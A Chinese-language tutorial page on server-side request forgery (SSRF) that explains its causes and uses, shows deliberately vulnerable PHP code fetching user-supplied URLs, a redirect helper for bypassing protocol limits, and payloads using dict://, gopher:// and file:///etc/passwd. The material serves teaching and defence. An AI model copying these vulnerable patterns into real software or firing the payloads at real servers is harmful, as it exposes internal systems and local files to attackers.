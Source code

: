 SSRF 服务端请求伪造
===================

SSRF 简介
---------

SSRF，Server-Side Request Forgery，服务端请求伪造，是一种由攻击者构造形成由服务器端发起请求的一个漏洞。一般情况下，SSRF 攻击的目标是从外网无法访问的内部系统。

漏洞形成的原因大多是因为服务端提供了从其他服务器应用获取数据的功能且没有对目标地址作过滤和限制。

攻击者可以利用 SSRF 实现的攻击主要有 5 种：

1. 可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的 banner 信息
2. 攻击运行在内网或本地的应用程序（比如溢出）
3. 对内网 WEB 应用进行指纹识别，通过访问默认文件实现
4. 攻击内外网的 web 应用，主要是使用 GET 参数就可以实现的攻击（比如 Struts2，sqli 等）
5. 利用 ``file`` 协议读取本地文件等

SSRF 漏洞出现的场景
-------------------

-  能够对外发起网络请求的地方，就可能存在 SSRF 漏洞
-  从远程服务器请求资源（Upload from URL，Import & Export RSS Feed）
-  数据库内置功能（Oracle、MongoDB、MSSQL、Postgres、CouchDB）
-  Webmail 收取其他邮箱邮件（POP3、IMAP、SMTP）
-  文件处理、编码处理、属性信息处理（ffmpeg、ImageMagic、DOCX、PDF、XML）

常用的后端实现
--------------

1. ``file_get_contents``

   .. code-block:: php
   
       <?php
       if (isset($_POST['url'])) { 
           $content = file_get_contents($_POST['url']); 
           $filename ='./images/'.rand().';img1.jpg'; 
           file_put_contents($filename, $content); 
           echo $_POST['url']; 
           $img = "<img src=\"".$filename."\"/>"; 
       }
       echo $img;
       ?>

   这段代码使用 ``file_get_contents`` 函数从用户指定的 URL 获取图片。然后把它用一个随即文件名保存在硬盘上，并展示给用户。

2. ``fsockopen()``

   .. code-block:: php
   
       <?php 
       function GetFile($host,$port,$link) { 
           $fp = fsockopen($host, intval($port), $errno, $errstr, 30); 
           if (!$fp) { 
               echo "$errstr (error number $errno) \n"; 
           } else { 
               $out = "GET $link HTTP/1.1\r\n"; 
               $out .= "Host: $host\r\n"; 
               $out .= "Connection: Close\r\n\r\n"; 
               $out .= "\r\n"; 
               fwrite($fp, $out); 
               $contents=''; 
               while (!feof($fp)) { 
                   $contents.= fgets($fp, 1024); 
               } 
               fclose($fp); 
               return $contents; 
           } 
       }
       ?>

   这段代码使用 ``fsockopen`` 函数实现获取用户制定 URL 的数据（文件或者 HTML）。这个函数会使用 socket 跟服务器建立 TCP 连接，传输原始数据。

3. ``curl_exec()``

   .. code-block:: php
   
       <?php 
       if (isset($_POST['url'])) {
           $link = $_POST['url'];
           $curlobj = curl_init();
           curl_setopt($curlobj, CURLOPT_POST, 0);
           curl_setopt($curlobj,CURLOPT_URL,$link);
           curl_setopt($curlobj, CURLOPT_RETURNTRANSFER, 1);
           $result=curl_exec($curlobj);
           curl_close($curlobj);
       
           $filename = './curled/'.rand().'.txt';
           file_put_contents($filename, $result); 
           echo $result;
       }
       ?>

   使用 ``curl`` 获取数据。

阻碍 SSRF 漏洞利用的场景
------------------------

-  服务器开启 OpenSSL 无法进行交互利用
-  服务端需要鉴权（Cookies & User：Pass）不能完美利用

利用 SSRF 进行端口扫描
----------------------

根据服务器的返回信息进行判断，大部分应用不会判别端口，可通过返回的 banner 信息判断端口状态。

后端实现

.. code-block:: php

    <?php 
    if (isset($_POST['url'])) {
        $link = $_POST['url'];
        $filename = './curled/'.rand().'txt';
        $curlobj = curl_init($link);
        $fp = fopen($filename,"w");
        curl_setopt($curlobj, CURLOPT_FILE, $fp);
        curl_setopt($curlobj, CURLOPT_HEADER, 0);
        curl_exec($curlobj);
        curl_close($curlobj);
        fclose($fp);
        $fp = fopen($filename,"r");
        $result = fread($fp, filesize($filename)); 
        fclose($fp);
        echo $result;
    }
    ?>

构造一个前端页面

.. code-block:: html

    <html>
    <body>
      <form name="px" method="post" action="http://127.0.0.1/ss.php">
        <input type="text" name="url" value="">
        <input type="submit" name="commit" value="submit">
      </form>
      <script></script>
    </body>
    </html>

请求非 HTTP 的端口可以返回 banner 信息。

或可利用 302 跳转绕过 HTTP 协议的限制。

辅助脚本

.. code-block:: php

    <?php
    $ip = $_GET['ip'];
    $port = $_GET['port'];
    $scheme = $_GET['s'];
    $data = $_GET['data'];
    header("Location: $scheme://$ip:$port/$data");
    ?>

`腾讯某处 SSRF 漏洞（非常好的利用点）附利用脚本 <https://_thorns.gitbooks.io/sec/content/teng_xun_mou_chu_ssrf_lou_6d1e28_fei_chang_hao_de_.html>`_

协议利用
--------

-  Dict 协议

   ::

     dict://fuzz.wuyun.org:8080/helo:dict

-  Gopher 协议

   ::

     gopher://fuzz.wuyun.org:8080/gopher

-  File 协议

   ::

     file:///etc/passwd

参考资料
--------

-  `《Build Your SSRF EXP Autowork》猪猪侠 <http://tools.40huo.cn/#!papers.md>`_
-  `腾讯某处 SSRF 漏洞（非常好的利用点）附利用脚本 <https://_thorns.gitbooks.io/sec/content/teng_xun_mou_chu_ssrf_lou_6d1e28_fei_chang_hao_de_.html>`_
-  `bilibili 某分站从信息泄露到 ssrf 再到命令执行 <https://_thorns.gitbooks.io/sec/content/bilibilimou_fen_zhan_cong_xin_xi_xie_lu_dao_ssrf_z.html>`_
